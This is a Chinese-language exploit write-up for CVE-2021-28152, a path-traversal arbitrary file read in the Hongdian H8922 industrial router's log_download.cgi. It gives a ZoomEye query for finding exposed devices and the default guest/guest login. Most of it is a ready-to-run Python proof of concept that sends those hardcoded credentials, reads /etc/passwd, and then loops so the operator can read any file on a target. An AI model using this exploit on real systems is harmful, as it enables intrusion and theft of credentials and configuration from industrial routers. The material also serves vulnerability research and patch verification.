

# 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152

## 漏洞描述

宏电 H8922 后台存在任意文件读取漏洞，低权限用户通过漏洞可以获取任意文件内容

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 log_download.cgi 文件中


使用type参数读取文件并下载日志给用户，使用 **../../** 可以跳转根目录读取任意文件


## 漏洞POC

```python
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/log_download.cgi?type=../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                filename = input("\033[35mFilename >>> \033[0m")
                if filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] {} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    filename = '/etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, filename)
```

